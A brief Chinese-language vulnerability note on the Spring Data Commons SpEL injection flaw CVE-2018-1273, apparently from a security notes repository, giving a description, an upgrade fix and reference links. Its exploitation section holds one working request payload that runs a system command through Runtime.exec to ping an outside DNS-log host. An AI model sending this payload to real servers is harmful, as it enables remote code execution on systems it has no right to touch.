

### 一 漏洞描述
Spring Data 是Spring 的一个子项目， 旨在统一和简化对各类型持久化存储， 而不拘泥于是关系型数据库还是NoSQL 数据存储。  
无论是哪种持久化存储， 数据访问对象（或称作为DAO，即Data Access Objects）通常都会提供对单一域对象的CRUD （创建、读取、更新、删除）操作、查询方法、排序和分页方法等。  
Spring Data则提供了基于这些层面的统一接口（CrudRepository，PagingAndSortingRepository）以及对持久化存储的实现。

Commons是spring data的子项目，提供共享的基础框架，适合各个子项目使用，支持跨数据库持久化

Spring Data Commons爆出远程代码执行漏洞（CVE-2018-1273），攻击者可构造包含有恶意代码的SPEL表达式实现远程代码攻击，直接获取服务器控制权限

### 二 漏洞利用
xxx[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("ping -n 1 {dnslog}")]=&xxx

### 三 漏洞修复
升级组件  

### 四 漏洞分析

> 参考链接
> http://blog.nsfocus.net/cve-2018-1273/ 
> http://blog.nsfocus.net/cve-2018-1273-analysis/  
> https://www.oschina.net/p/spring-data?hmsr=aladdin1e1
